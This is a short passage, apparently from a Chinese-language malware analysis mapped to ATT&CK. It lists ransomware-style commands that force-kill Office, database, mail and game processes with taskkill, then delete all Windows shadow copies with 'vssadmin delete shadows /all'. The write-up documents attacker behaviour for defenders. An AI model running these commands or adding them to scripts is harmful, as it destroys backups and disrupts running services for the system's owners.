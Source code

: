 execute  
 taskkill /f /im powerpnt.exe   
  
execute  
 taskkill /f /im steam.exe   
  
execute  
 taskkill /f /im sqlservr.exe   
  
execute  
 taskkill /f /im thebat.exe   
  
execute  
 taskkill /f /im thebat64.exe   
  
execute  
 taskkill /f /im thunderbird.exe   
  
execute  
 taskkill /f /im visio.exe   
  
execute  
 taskkill /f /im winword.exe   
  
execute  
 taskkill /f /im wordpad.exe   
  
execute  
 taskkill /f /im tnslsnr.exe   
  
  
删除卷影  
  
  
execute  
 vssadmin   
delete  
 shadows /  
all  
   
  
![](https://mmbiz.qpic.cn/mmbiz_gif/w8NHw6tcQ5xrCbEqJiaibH6wYrNcKvzazCjS4KcsYSz108vPJnxz6hQabsCyickQaWgKbBqaxO7GsmBFbPyL7j2XA/640?wx_fmt=gif&from=appmsg "")  
  
**ATT&ck**  
  